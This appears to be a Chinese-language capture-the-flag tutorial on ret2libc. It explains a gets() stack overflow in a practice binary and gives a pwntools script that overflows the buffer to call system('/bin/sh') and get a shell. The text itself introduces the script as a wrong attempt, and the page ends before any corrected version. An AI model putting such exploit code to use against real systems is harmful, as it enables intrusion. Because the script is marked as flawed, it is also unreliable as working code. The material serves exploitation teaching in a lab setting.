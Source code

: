
## ret2libc

### 例1
这个例子的特征是：gets函数有栈溢出，程序里的secure函数调用了system，程序里可以搜到'/bin/sh'字符串。  
所以思路就是设置system函数的参数为'/bin/sh'，跳到执行system函数的地方，就能拿到shell了。  
先看一个错误的脚本：  
```python
#coding :utf8

'''
main func return value addr:
0000| 0xffffd0ac --> 0xf7de9ee5 (<__libc_start_main+245>:	add    esp,0x10)
my input addr
0000| 0xffffd020 --> 0xffffd03c ("hello")
bin_sh_addr
.rodata:08048720 aBinSh          db '/bin/sh',0
call_system_addr
.text:08048611                 call    _system
'''

from pwn import *

exe = ELF("./ret2libc1")

context.binary = exe

bin_sh_addr = 0x08048720
call_system_addr = 0x08048611

def conn():
    if args.LOCAL:
        return process([exe.path])
    else:
        return remote("addr", 1337)


def main():
    r = conn()

    if args.G:
        gdb.attach(r)


    payload = flat(['a' * 0x88, bin_sh_addr, call_system_addr])
    r.recvuntil('RET2LIBC >_<')
    r.sendline(payload)

    r.interactive()


if __name__ == "__main__":
    main()
```
